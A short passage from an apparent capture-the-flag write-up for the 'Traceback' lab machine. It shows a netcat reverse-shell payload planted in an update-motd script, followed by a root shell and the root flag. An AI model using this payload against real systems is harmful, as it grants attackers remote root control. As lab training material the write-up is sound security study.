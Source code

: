 

{{<figure src="/images/traceback/motd.png" title="Directory Containing the Backdoor">}}


#### Payload added to `/etc/update-motd.d/00-header`
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.96 4242 >/tmp/f
```


### Shell
{{<figure src="/images/traceback/root-shell.png" title="Shell as Root">}}

```bash
# whoami
root
# cat root.txt
c5d0f8fec6289f10648abbf689da5026
```

